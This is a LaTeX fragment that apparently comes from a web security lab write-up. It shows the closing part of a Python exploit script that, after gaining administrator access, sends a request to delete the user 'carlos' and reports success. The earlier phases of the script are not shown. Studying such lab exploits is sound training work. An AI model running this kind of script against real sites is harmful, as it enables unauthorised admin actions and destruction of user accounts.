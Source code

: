 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{lstlisting}[language=python,caption={Simplified single-purpose script}]
    print("[+] Logged in as administrator")

    # Phase 4: Delete carlos
    print("[*] Phase 4: Deleting carlos...")
    r = s2.get(f"{base_url}/admin/delete?username=carlos",
               verify=False, proxies=PROXIES, timeout=15)

    if r.status_code == 200:
        print("[+] Carlos deleted successfully!")
        return True

    return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        sys.exit(2)

    success = exploit(sys.argv[1].rstrip('/'))
    sys.exit(0 if success else 1)
\end{lstlisting}

\subsection{Bash Exploitation Script}
\end{document}

